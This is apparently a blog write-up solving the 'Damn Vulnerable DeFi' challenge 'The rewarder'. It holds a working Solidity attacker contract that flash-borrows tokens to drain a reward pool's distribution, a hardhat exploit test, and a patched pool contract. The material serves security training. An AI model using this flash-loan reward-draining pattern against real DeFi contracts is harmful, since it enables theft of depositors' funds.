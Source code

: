 ```yaml
---
layout: post
title: Damn Vulnerable DeFi - The rewarder
---
```


## Description
There's a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.

Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

Oh, by the way, rumours say a new pool has just landed on mainnet. Isn't it offering DVT tokens in flash loans?

## Solution
This is the most complicated contract we've seen so far. We have to analyze several contracts here.
The `FlashLoanderPool` looks bug free so let's turn our attention to `TheRewarderPool`. The `deposit`
function will mint the amount deposited and then distribute rewards to depositors.

This opens it up to a potential predatory deposit. As soon as there's a new rewards round we can
deposit a very large amount and earn rewards on our deposit. Then we can return the flashloan and
keep the rewards. The steps are

1. Take out a flash loan
2. Deposit the flash loan amount in the rewarder pool. This will trigger the rewards distribution.
3. Withdraw the deposit
4. Return the flashloan
5. Send the rewards to the attacker

```
contract RewarderAttacker {
    FlashLoanerPool private flashLoanerPool;
    TheRewarderPool private theRewarderPool;
    RewardToken private rewardToken;
    DamnValuableToken private dvt;
    address private attacker;

    function attack(
        address _flashLoanerPool,
        address _theRewarderPool,
        address _rewardToken,
        address _dvt,
        uint256 amount
    ) external {
        attacker = msg.sender;
        flashLoanerPool = FlashLoanerPool(_flashLoanerPool);
        theRewarderPool = TheRewarderPool(_theRewarderPool);
        rewardToken = RewardToken(_rewardToken);
        dvt = DamnValuableToken(_dvt);

        flashLoanerPool.flashLoan(amount);
    }

    function receiveFlashLoan(uint256 amount) external {
        dvt.approve(address(theRewarderPool), amount);
        theRewarderPool.deposit(amount);
        theRewarderPool.withdraw(amount);
        dvt.transfer(address(flashLoanerPool), amount);
        rewardToken.transfer(attacker, rewardToken.balanceOf(address(this)));
    }
}
```

Rewards are distributed periodically which means we have to "wait" to perform out attack.
We can simulate the wait using hardhat's `evm_increateTime` RPC endpoint.

```
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */
    await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]);

    const RewarderAttackerFactory = await ethers.getContractFactory('RewarderAttacker', deployer); 
    const rewarderAttacker = await RewarderAttackerFactory.deploy();

    await rewarderAttacker.connect(attacker).attack(
        this.flashLoanPool.address,
        this.rewarderPool.address,
        this.rewardToken.address,
        this.liquidityToken.address,
        TOKENS_IN_LENDER_POOL
    );
});
```

## Patched Contract
If we distribute rewards before the mint on deposit, then the flash loan capital won't contribute
to the latest snapshot. This is how we'll mitigate the attack.

```
contract TheRewarderPoolV2 {

    // Minimum duration of each round of rewards in seconds
    uint256 private constant REWARDS_ROUND_MIN_DURATION = 5 days;

    uint256 public lastSnapshotIdForRewards;
    uint256 public lastRecordedSnapshotTimestamp;

    mapping(address => uint256) public lastRewardTimestamps;

    // Token deposited into the pool by users
    DamnValuableToken public immutable liquidityToken;

    // Token used for internal accounting and snapshots
    // Pegged 1:1 with the liquidity token
    AccountingToken public accToken;
    
    // Token in which rewards are issued
    RewardToken public immutable rewardToken;

    // Track number of rounds
    uint256 public roundNumber;

    constructor(address tokenAddress) {
        // Assuming all three tokens have 18 decimals
        liquidityToken = DamnValuableToken(tokenAddress);
        accToken = new AccountingToken();
        rewardToken = new RewardToken();

        _recordSnapshot();
    }

    /**
     * @notice sender must have approved `amountToDeposit` liquidity tokens in advance
     */
    function deposit(uint256 amountToDeposit) external {
        require(amountToDeposit > 0, "Must deposit tokens");
        
        // Distribute rewards before minting
        distributeRewards();
        accToken.mint(msg.sender, amountToDeposit);

        require(
            liquidityToken.transferFrom(msg.sender, address(this), amountToDeposit)
        );
    }

    function withdraw(uint256 amountToWithdraw) external {
        accToken.burn(msg.sender, amountToWithdraw);
        require(liquidityToken.transfer(msg.sender, amountToWithdraw));
    }

    function distributeRewards() public returns (uint256) {
        uint256 rewards = 0;

        if(isNewRewardsRound()) {
            _recordSnapshot();
        }        
        
        uint256 totalDeposits = accToken.totalSupplyAt(lastSnapshotIdForRewards);
        uint256 amountDeposited = accToken.balanceOfAt(msg.sender, lastSnapshotIdForRewards);

        if (amountDeposited > 0 && totalDeposits > 0) {
            rewards = (amountDeposited * 100 * 10 ** 18) / totalDeposits;

            if(rewards > 0 && !_hasRetrievedReward(msg.sender)) {
                rewardToken.mint(msg.sender, rewards);
                lastRewardTimestamps[msg.sender] = block.timestamp;
            }
        }

        return rewards;     
    }

    function _recordSnapshot() private {
        lastSnapshotIdForRewards = accToken.snapshot();
        lastRecordedSnapshotTimestamp = block.timestamp;
        roundNumber++;
    }

    function _hasRetrievedReward(address account) private view returns (bool) {
        return (
            lastRewardTimestamps[account] >= lastRecordedSnapshotTimestamp &&
            lastRewardTimestamps[account] <= lastRecordedSnapshotTimestamp + REWARDS_ROUND_MIN_DURATION
        );
    }

    function isNewRewardsRound() public view returns (bool) {
        return block.timestamp >= lastRecordedSnapshotTimestamp + REWARDS_ROUND_MIN_DURATION;
    }
}
```